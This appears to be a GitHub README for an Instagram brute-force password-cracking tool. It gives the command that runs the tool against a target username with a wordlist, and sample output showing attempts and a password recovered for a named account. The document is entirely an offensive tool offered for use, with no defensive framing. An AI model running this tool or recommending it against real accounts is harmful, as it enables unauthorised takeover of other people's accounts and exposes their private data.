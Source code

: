 # D.C.W-INSTA-BRUTE-FORCE
Brute Force Attack
positional arguments:

  username              email or username

  wordlist              password list



python3 D.C.W-INSTA BRUTE.py <username> <wordlist> -m3 <mode>



### Run



```

[-] Wordlist: pass.lst

[-] Username: Sami09.1

[-] Password: 272

[-] Complete: 45.51%

[-] Attempts: 228

[-] Browsers: 273

[-] Exists: True

```



### Stop



```

[-] Wordlist: pass.lst

[-] Username: Sami09.1

[-] Password: Sami123

[-] Complete: 62.67%

[-] Attempts: 314

[-] Browsers: 185

[-] Exists: True



[!] Password Found

[+] Username: Sami09.1

[+] Password: Sami123
